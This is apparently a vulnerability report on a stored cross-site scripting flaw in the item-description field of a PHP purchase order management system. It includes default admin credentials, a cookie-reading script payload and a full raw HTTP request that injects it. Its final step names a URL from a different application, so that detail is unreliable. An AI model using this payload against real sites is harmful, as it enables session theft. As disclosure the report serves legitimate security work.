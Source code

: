 # Purchase Order Management System v1.0 has stored cross-site scripting

BUG_Author: biantaibao

Website source address:https://www.sourcecodester.com/php/14935/purchase-order-management-system-using-php-free-source-code.html

Vulnerability url:/purchase_order/classes/Master.php?f=save_item

POST form-data parameter name="description" exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/purchase_order/admin/login.php

Default Admin Access Information    Username: admin / Password: admin123

2.Click on "Item List" and Click on "+ Create New"

3.Put Payload into the name="description" parameter

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/biantaibao/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /purchase_order/classes/Master.php?f=save_item HTTP/1.1
Host: localhost
Content-Length: 456
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEVgmE4IS3SY3HsV8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/purchase_order/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=i6hni6v878818jfsm3ur8n792s
Connection: close

------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="name"

1
------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="description"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryEVgmE4IS3SY3HsV8--
```

5.Payload will trigger when a user visits on http://localhost/php-pess/admin/?page=positions

![image](https://github.com/biantaibao/bug_report/blob/main/xss2.png)
